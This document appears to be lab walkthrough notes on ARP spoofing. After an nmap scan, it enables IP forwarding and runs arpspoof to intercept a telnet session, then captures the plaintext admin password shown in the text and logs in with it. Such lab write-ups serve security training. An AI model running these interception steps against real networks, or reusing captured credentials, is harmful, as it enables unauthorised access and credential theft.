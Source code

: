 [[ip]]

```
┌──(rootkali)-[~]
└─# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: adlab0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:f9:76:b6 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.3/24 brd 192.168.0.255 scope global adlab0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fef9:76b6/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:d4:ee:5d brd ff:ff:ff:ff:ff:ff
    inet 10.100.13.140/24 brd 10.100.13.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fed4:ee5d/64 scope link 
       valid_lft forever preferred_lft forever
```

[[Hack2.0/NMAP#General Scan|NMAP]]

```
┌──(rootkali)-[~]
└─# nmap 10.100.13.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2023-07-25 17:13 EDT
Nmap scan report for 10.100.13.1
Host is up (0.00020s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
3389/tcp open  ms-wbt-server
MAC Address: 0A:00:27:00:00:01 (Unknown)

Nmap scan report for 10.100.13.36
Host is up (0.00034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
23/tcp open  telnet
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)

Nmap scan report for 10.100.13.37
Host is up (0.00039s latency).
All 1000 scanned ports on 10.100.13.37 are closed
MAC Address: 08:00:27:99:AA:A7 (Oracle VirtualBox virtual NIC)

Nmap scan report for 10.100.13.140
Host is up (0.0000040s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
5910/tcp open  cm

Nmap done: 256 IP addresses (4 hosts up) scanned in 31.07 seconds
```

Launch the wireshark and select the interface eth1 and see if there is any data traffic. I do not see any data traffic so moving on. Let us ping one of the device and see if we can capture the data traffic on wireshark.

```
┌──(rootkali)-[~]
└─# ping -c 5 10.100.13.37
PING 10.100.13.37 (10.100.13.37) 56(84) bytes of data.
64 bytes from 10.100.13.37: icmp_seq=1 ttl=64 time=3.69 ms
64 bytes from 10.100.13.37: icmp_seq=2 ttl=64 time=0.747 ms
64 bytes from 10.100.13.37: icmp_seq=3 ttl=64 time=1.23 ms
64 bytes from 10.100.13.37: icmp_seq=4 ttl=64 time=0.688 ms
64 bytes from 10.100.13.37: icmp_seq=5 ttl=64 time=0.538 ms

--- 10.100.13.37 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4048ms
rtt min/avg/max/mdev = 0.538/1.377/3.686/1.177 ms
```

Now that we are able to see the data packets. Let us try to do some arp poisoning and try to capture the data traffic that is not meant for us.

configuring the kali instance to forward the ip packets.

```
┌──(rootkali)-[~]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
```

In this arpspoofing we are trying to imposter as 10.100.13.37 and capture the data between the server and target device.

```
┌──(rootkali)-[~]
└─# arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
```

Once we get the telnet protocol in the wireshark we can either stop or follow the TCP stream. I did select the follow TCP stream and was able to get the password for admin.

```
........... ..!.."..'........ ..#..'........!..".....#........... .....'........... .38400,38400....'.......UNKNOWN..............Ubuntu 20.04 LTS
ine login: admin
.
admin

Password: MyS3cr3tP455
.

Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-28-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Nov 2021 07:54:37 PM UTC

  System load:    0.0                Processes:               101
  Usage of /home: 0.0% of 249.01GB   Users logged in:         0
  Memory usage:   40%                IPv4 address for enp0s3: 10.100.13.36
  Swap usage:     0%


264 updates can be installed immediately.
136 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Thu Nov 18 19:53:57 UTC 2021 on pts/0
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

```

now that we got the password let us go ahead and try to login as admin to telnet

```
┌──(rootkali)-[~]
└─# telnet 10.100.13.36
Trying 10.100.13.36...
Connected to 10.100.13.36.
Escape character is '^]'.
Ubuntu 20.04 LTS
ine login: admin
Password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-28-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 18 Nov 2021 08:00:10 PM UTC

  System load:    0.0                Processes:               102
  Usage of /home: 0.0% of 249.01GB   Users logged in:         0
  Memory usage:   40%                IPv4 address for enp0s3: 10.100.13.36
  Swap usage:     0%


264 updates can be installed immediately.
136 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Thu Nov 18 19:59:57 UTC 2021 on pts/1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@ine:~$ 

```